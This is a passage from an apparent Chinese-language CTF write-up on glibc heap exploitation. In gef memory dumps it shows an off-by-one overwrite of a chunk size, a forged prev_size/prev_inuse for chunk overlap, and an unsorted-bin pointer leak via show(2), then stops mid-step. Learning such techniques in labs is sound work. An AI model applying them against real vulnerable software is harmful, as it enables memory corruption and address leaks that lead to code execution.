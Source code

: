 ```python
    [0x0000558de32e61b0     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6220, size=0x70, flags=PREV_INUSE)
    [0x0000558de32e6220     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6290, size=0x20d80, flags=PREV_INUSE)  ←  top chunk
```
接下来 `delete chunk 1`,放入` unsorted bin`
```c
[+] unsorted_bins[0]: fw=0x558de32e6030, bk=0x558de32e6030
 →   Chunk(addr=0x558de32e6040, size=0x100, flags=PREV_INUSE)
```
`edit chunk 0`,利用 `offbyone`,修改 `chunk 1` 的 `size` 位的低字节为 `0x71`
修改前：
```c
gef➤  x/16gx 0x558de32e6010-0x10
0x558de32e6000:	0x0000000000000000	0x0000000000000031
0x558de32e6010:	0x6161616161616161	0x6161616161616161
0x558de32e6020:	0x6161616161616161	0x6161616161616161
0x558de32e6030:	0x6161616161616161	0x0000000000000101 => chunk 0 header
0x558de32e6040:	0x00007f4355a8fb78	0x00007f4355a8fb78
0x558de32e6050:	0x6161616161616161	0x6161616161616161
0x558de32e6060:	0x6161616161616161	0x6161616161616161
```
修改后,可以看到成功修改为 `0x171` 了，也就是将 `chunk 2` 包括进来。
```c
gef➤  x/16gx 0x558de32e6010-0x10
0x558de32e6000:	0x0000000000000000	0x0000000000000031 => chunk 0 header 
0x558de32e6010:	0x6161616161616161	0x6161616161616161
0x558de32e6020:	0x6161616161616161	0x6161616161616161
0x558de32e6030:	0x6161616161616161	0x0000000000000171 => chunk 1 header
0x558de32e6040:	0x00007f4355a8fb78	0x00007f4355a8fb78
0x558de32e6050:	0x6161616161616161	0x6161616161616161
0x558de32e6060:	0x6161616161616161	0x6161616161616161
```
通过 `edit chunk 2`，修改 `chunk 3` 的 `header`,伪造 `pre_size` 和 `pre_inuse` 。这样就实现了` chunk overlap`
修改前
```c
gef➤  x/32gx 0x558de32e6130
0x558de32e6130:	0x0000000000000100	0x0000000000000070 => chunk 2 header 
0x558de32e6140:	0x6161616161616161	0x6161616161616161
0x558de32e6150:	0x6161616161616161	0x6161616161616161
0x558de32e6160:	0x6161616161616161	0x6161616161616161
0x558de32e6170:	0x6161616161616161	0x6161616161616161
0x558de32e6180:	0x6161616161616161	0x6161616161616161
0x558de32e6190:	0x6161616161616161	0x6161616161616161
0x558de32e61a0:	0x6161616161616161	0x0000000000000071 => chunk 3 header
0x558de32e61b0:	0x6161616161616161	0x6161616161616161
0x558de32e61c0:	0x6161616161616161	0x6161616161616161
```
修改后
```c
gef➤  x/16gx 0x564dfc7d01b0-0x10
0x564dfc7d01a0:	0x0000000000000170	0x0000000000000070 => chunk 3 header
0x564dfc7d01b0:	0x6161616161616161	0x6161616161616161
0x564dfc7d01c0:	0x6161616161616161	0x6161616161616161
0x564dfc7d01d0:	0x6161616161616161	0x6161616161616161
```
添加一个新的堆块，就会将 `chunk 1` 分配出去，因为我们伪造了 `chunk 1` 的 `size`,此时是 `0x170`，所以此时会进行切分操作。让 `chunk 2` 写入 `fd,bk` 指针，通过 `show(2)` 就可以泄露地址  
添加前：
